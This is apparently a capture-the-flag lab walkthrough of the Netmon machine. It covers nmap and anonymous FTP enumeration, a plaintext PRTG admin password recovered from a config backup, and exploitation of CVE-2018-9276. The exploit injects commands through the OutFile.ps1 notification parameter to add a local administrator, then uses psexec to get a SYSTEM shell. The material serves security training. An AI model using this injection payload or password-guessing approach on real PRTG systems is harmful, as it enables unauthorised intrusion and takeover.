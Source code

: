# Exercise: Enumerating vulnerabilities caused by default applications in the box Netmon

In this machine, the application PRTG Network Monitor has been installed and the demo features have not been removed or disabled. The vulnerability here allows remote command execution through a demo feature in the product.

Scanning the machine with nmap you get the following output:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Netmon]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- netmon.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

We can see that the box is likely running Windows Server 2008 R2 and that it allows anonymous FTP access to the entire main drive. The other thing to note is that there is a web server on port 80 which is running the application PRTG Network Monitor.

The website offers a login page

![PRTG Login Page](../.gitbook/assets/14%20%282%29.png)

Searching the internet for information about PRTG and where it may store configuration information, you find that configuration information should be in c:\ProgramData\Paessler\PRTG Network Monitor \(alternatively, a quick bit of searching in FTP uncovers this\). There you find some configuration files, including what looks like a backup.

```bash
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-22-20 10:46PM <DIR> Configuration Auto-Backups
10-22-20 10:05PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
10-23-20 12:00AM <DIR> Logs (Web Server)
10-22-20 10:10PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
10-23-20 07:10AM 1723779 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
```

We can use mget PRTG\* to copy all of the configuration files to our local machine. Looking at "PRTG Configuration.old.bak" first, you find the following information:

```text
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Trying this on the login page doesn't work but looking at the format of the password and updating the year to PrTg@dmin2019 gets us in!

Once in, you can see that the version of PRTG is 18.1.37.13946, which is the same information that nmap gave us in the output above. Looking around the app, you can see the release notes for the application with a warning about the current version

![Release notes for version 18.4.47.1972 in PRTG application](../.gitbook/assets/15%20%281%29.png)

.This particular vulnerability doesn't really help us \(although it may have been a reason for the plain text password in the backup configuration file?\). So you need to look for other vulnerabilities. Searching for vulnerabilities for PRTG, you find a highly critical vulnerability CVE-2018-9276[\[6\]](exercise-enumerating-vulnerabilities-caused-by-default-applications-in-the-box-netmon.md) that allows remote code execution. The vulnerability is related to a demo script that is included with the product that is vulnerable to command injection. When creating a notification in the system, one action that can be selected is to run an executable and of the two options provided one is a PowerShell script OutFile.ps1. This takes a parameter of a file name but if you add a "\|" after the file name, you can add any other PowerShell commands. you can then create a new user and add them to the administrator group using the parameter:

```bash
afile.txt | net user rin password123! /add ; net localgroup administrators rin /add
```

To create a Notification, you go into the menu Setup &gt; Account Settings &gt; Notifications

![Notifications page in Account Settings in PRTG](../.gitbook/assets/16.png)

.Clicking the + button to create a new notification and leave everything as default but select Execute Program:

![Creating a Notification in PRTG](../.gitbook/assets/17.png)

Select the Demo.exe notification outfile.ps1 and enter our crafted command as the Parameter. In the Notifications list, click the menu button on the right and then the bell icon from the popup menu

![Notifications list after creating notification](../.gitbook/assets/18%20%281%29.png)

Once you have done this, you can login using Impacket's psexec.py

```bash
┌─[rin@parrot]─[~/boxes/Netmon/CVE-2018-9276]
└──╼ $psexec.py rin:'password123!'@10.10.10.152
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file mirjPmkK.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NeIi on 10.10.10.152.....
[*] Starting service NeIi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

We could also have logged in using evil-winrm as the user "rin" or instead of creating a user, run a PowerShell command to get a reverse shell.

